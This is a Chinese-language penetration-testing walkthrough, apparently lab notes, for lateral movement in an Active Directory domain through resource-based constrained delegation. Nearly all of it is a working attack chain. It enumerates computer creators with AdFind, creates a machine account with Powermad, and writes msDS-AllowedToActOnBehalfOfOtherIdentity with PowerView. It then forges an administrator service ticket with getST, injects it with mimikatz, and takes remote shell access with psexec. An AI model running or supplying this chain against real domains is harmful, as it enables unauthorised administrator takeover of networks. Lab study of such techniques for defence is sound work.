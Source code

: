 



~~~
#横向移动-实战靶机-资源约束委派
基于资源的约束委派(RBCD)是在Windows Server 2012中新加入的功能，与传统的约束委派相比，它不再需要域管理员权限去设置相关属性。RBCD把设置委派的权限赋予了机器自身，既机器自己可以决定谁可以被委派来控制我。也就是说机器自身可以直接在自己账户上配置msDS-AllowedToActOnBehalfOfOtherIdentity属性来设置RBCD。

-》计算机加⼊域时，加⼊域的域⽤户被控后也将导致使用当前域用户加入的计算机受控。

条件：
1、域控Windows2012及以上
2、存在域内成员用户加入域操作

获取受害目标：有哪些域内计算机存在同一用户加入的
AdFind.exe -h 192.168.3.33 -b "DC=xiaodi,DC=local" -f "objectClass=computer" mS-DS-CreatorSID
判断受害用户：
sid2user.exe \\192.168.3.33 5 21 1695257952 3088263962 2055235443 1104

增加机器：
https://github.com/Kevin-Robertson/Powermad
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)

获取sid：
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
Import-Module .\PowerView.ps1
Get-NetComputer serviceA -Properties objectsid
S-1-5-21-1695257952-3088263962-2055235443-1107

设置修改属性
powershell
Set-ExecutionPolicy Bypass -Scope Process
import-module .\powerview.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1695257952-3088263962-2055235443-1107)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

验证修改是否成功：
Get-DomainComputer DATA -Properties msds-allowedtoactonbehalfofotheridentity
清除修改设置：
Set-DomainObject DATA -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose

连接目标获取票据：
python getST.py -dc-ip 192.168.3.33 xiaodi.local/serviceA\$:123456 -spn cifs/data.xiaodi.local -impersonate administrator
导入票据到内存：
mimikatz kerberos::ptc administrator.ccache
连接利用票据：
dir \\data.xiaodi.local\c$
python psexec.py -k xiaodi.local/administrator@data.xiaodi.local -no-pass

~~~
